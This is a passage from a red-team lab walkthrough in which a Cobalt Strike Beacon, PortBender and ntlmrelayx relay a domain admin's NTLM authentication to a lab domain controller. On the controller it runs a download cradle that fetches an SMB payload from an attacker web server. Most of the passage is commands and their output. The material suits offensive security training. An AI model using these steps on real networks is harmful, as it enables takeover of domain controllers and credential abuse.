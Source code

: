 Where:

1. 10.10.122.10 is the IP address of dc-2.dev.cyberbotic.io, which is our target.
2. The encoded command is a download cradle pointing at http://10.10.123.102:8080/b, and /b is an SMB payload.

PortBender is a reflective DLL and aggressor script specifically designed to help facilitate relaying through Cobalt Strike.  It requires that the driver be located in the current working directory of the Beacon.  It makes sense to use C:\Windows\System32\drivers since this is where most Windows drivers go.

    beacon> cd C:\Windows\system32\drivers
    beacon> upload C:\Tools\PortBender\WinDivert64.sys
    
Then go to Cobalt Strike > Script Manager and load PortBender.cna from C:\Tools\PortBender - this adds a new PortBender command to the console.

    beacon> help PortBender
    Redirect Usage: PortBender redirect FakeDstPort RedirectedPort
    Backdoor Usage: PortBender backdoor FakeDstPort RedirectedPort Password
    Examples:
    	PortBender redirect 445 8445
    	PortBender backdoor 443 3389 praetorian.antihacker
    
Execute PortBender to redirect traffic from 445 to port 8445.

    beacon> PortBender redirect 445 8445
    [+] Launching PortBender module using reflective DLL injection
    Initializing PortBender in redirector mode
    Configuring redirection of connections targeting 445/TCP to 8445/TCP   


- This pretty much breaks any legitimate SMB service on the machine.

To trigger the attack, we need to coerce a user or a machine to make an authentication attempt to Workstation 2.  Let's do it manually for now, by using the console of Workstation 1 as the user nlamb.  This user is a domain admin, so we can relay the authentication request to the domain controller.

    C:\Users\nlamb>hostname
    wkstn-1
    
    C:\Users\nlamb>dir \\10.10.123.102\relayme
    
You should see PortBender log the connection and ntlmrelayx will spring into action.

    [*] SMBD-Thread-3: Received connection from 127.0.0.1, attacking target smb://10.10.122.10
    |S-chain|-<>-127.0.0.1:1080-<><>-10.10.122.10:445-<><>-OK
    [*] Authenticating against smb://10.10.122.10 as DEV/NLAMB SUCCEED
    [*] Executed specified command on host: 10.10.122.10
    
ntlmrelayx reports that the command was executed - we can check the web log to confirm we received a hit.

    09/05 13:34:16 visit (port 80) from: 127.0.0.1
    	Request: GET /b
    	page Scripted Web Delivery (powershell)
    	null
